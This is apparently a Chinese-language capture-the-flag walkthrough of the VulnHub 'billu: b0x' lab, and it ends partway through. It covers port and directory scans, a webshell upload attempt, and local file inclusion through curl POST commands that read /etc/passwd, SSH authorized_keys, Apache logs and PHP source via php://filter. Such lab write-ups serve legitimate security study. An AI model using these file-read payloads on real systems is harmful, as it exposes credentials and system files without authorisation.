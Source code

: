 # billu: b0x

2024-6-6 https://www.vulnhub.com/entry/billu-b0x,188/

difficulty: medium

## IP

192.168.10.192

## Scan

Open Port -> 22,80

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 facfa252c4faf575a7e2bd60833e7bde (DSA)
|   2048 88310c789880ef33fa2622edd09bbaf8 (RSA)
|_  256 0e5e330350c91eb3e75139a44a1064ca (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: --==[[IndiShell Lab]]==--
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
```

直接看 80 web 服务，http://192.168.10.192/ 主页是个登陆页面，尝试 sql 注入测试，没发现有。

先用 gobuster 扫描看看：

```
http://192.168.10.192/images               (Status: 301) [Size: 317] [--> http://192.168.10.192/images/]
http://192.168.10.192/c                    (Status: 200) [Size: 1]
http://192.168.10.192/c.php                (Status: 200) [Size: 1]
http://192.168.10.192/in.php               (Status: 200) [Size: 47528]
http://192.168.10.192/in                   (Status: 200) [Size: 47524]
http://192.168.10.192/show.php             (Status: 200) [Size: 1]
http://192.168.10.192/show                 (Status: 200) [Size: 1]
http://192.168.10.192/add.php              (Status: 200) [Size: 307]
http://192.168.10.192/add                  (Status: 200) [Size: 307]
http://192.168.10.192/test.php             (Status: 200) [Size: 72]
http://192.168.10.192/test                 (Status: 200) [Size: 72]
http://192.168.10.192/index                (Status: 200) [Size: 3267]
http://192.168.10.192/index.php            (Status: 200) [Size: 3267]
http://192.168.10.192/head.php             (Status: 200) [Size: 2793]
http://192.168.10.192/head                 (Status: 200) [Size: 2793]
http://192.168.10.192/uploaded_images      (Status: 301) [Size: 326] [--> http://192.168.10.192/uploaded_images/]
http://192.168.10.192/panel                (Status: 302) [Size: 2469] [--> index.php]
http://192.168.10.192/panel.php            (Status: 302) [Size: 2469] [--> index.php]
http://192.168.10.192/head2.php            (Status: 200) [Size: 2468]
http://192.168.10.192/head2                (Status: 200) [Size: 2468]
```

扫出的目录较多。

http://192.168.10.192/in.php 是 phpinfo 页面。

http://192.168.10.192/add.php 是一个文件上传页面，尝试上传 webshell ，但是没看到回显地址。

http://192.168.10.192/test.php 提示 'file' parameter is empty. Please provide file path in 'file' parameter，这里可能存在 LFI，进行尝试，get 方式不行，使用 POST 可以看到 /etc/passwd 的文件内容：

```
curl --data-urlencode 'file=/etc/passwd' http://192.168.10.192/test.php

root:x:0:0:root:/root:/bin/bash
...
ica:x:1000:1000:ica,,,:/home/ica:/bin/bash
```

其他的几个扫描出的链接，都没看到可利用点，看看上面的 LFI 能否读取到 apache2 的日志文件：

```
curl --data-urlencode 'file=/var/log/apache2/access.log' http://192.168.10.192/test.php

curl --data-urlencode 'file=/home/ica/.ssh/authorized_keys' http://192.168.10.192/test.php

curl --data-urlencode 'file=php://filter/read=convert.base64-encode/resource=/var/www/html/index.php' http://192.168.10.192/test.php
```
